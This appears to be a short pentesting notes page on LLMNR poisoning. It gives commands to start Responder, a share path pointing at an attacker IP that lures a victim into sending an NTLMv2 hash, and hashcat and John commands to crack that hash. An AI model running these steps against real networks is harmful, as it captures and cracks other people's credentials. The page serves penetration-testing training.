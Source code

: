 # LLMNR Poisoning

## Practical

### Capture NTLMv2 Hash

#### Start Responder

```
sudo responder -I eth0
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>Responder </p></figcaption></figure>

{% hint style="info" %}
Note: You have to request for an non existent share in the victim machine

\\\\\<Attacker IP>\FakeShare
{% endhint %}

#### Captured Hash

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Crack NTLMv2 Hash

#### Hashcat

```
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>Hashcat</p></figcaption></figure>

#### John

```
john --wordlist=<wordlist.txt> hash.txt
```

<figure><img src="../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption><p>John The Ripper</p></figcaption></figure>
